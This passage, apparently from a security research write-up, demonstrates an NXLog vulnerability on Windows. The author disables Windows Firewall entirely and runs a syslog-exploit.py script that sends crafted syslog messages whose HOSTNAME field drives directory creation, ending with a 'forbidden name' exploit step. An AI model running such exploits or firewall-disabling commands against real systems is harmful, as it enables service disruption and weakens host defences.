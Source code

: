 Check :
````powershell
netstat -an | Select-String "514" 
````

Return :
````
  UDP    0.0.0.0:514            *:* 
````

Ok great !

Disable Windows Firewall, because I don't want to create a Firewall rule... :
````powershell
Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False
````

---

### 2.1.2 Test :
With my python script I can just send a Syslog message for test if Nxlog service create directory. 

The name of directory is based on the **HOSTNAME** field of the Syslog payload. (See configuration file)

So :
````bash
./syslog-exploit.py -ip 192.168.1.54 -os 3
````

Directory and log are created :
````powershell
ls "C:\Program Files (x86)\nxlog\data\"
Mode                LastWriteTime         Length Name
----                -------------         ------ ----                                                                                                               d-----       29/11/2020     19:31                123soleil
-a----       29/11/2020     19:52            257 nxlog.log

ls "C:\Program Files (x86)\nxlog\data\123soleil"
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       29/11/2020     19:31             75 123soleil.log 

cat "C:\Program Files (x86)\nxlog\data\123soleil\123soleil.log"
<30>Sep 14 14:09:09 123soleil dhcp service[warning] 110 Silence is golden
````


---

### 2.1.3 Exploit :
Now if I specify a hostname with a forbidden name :
````bash
./syslog-exploit.py -ip 192.168.1.54 -os 2
````
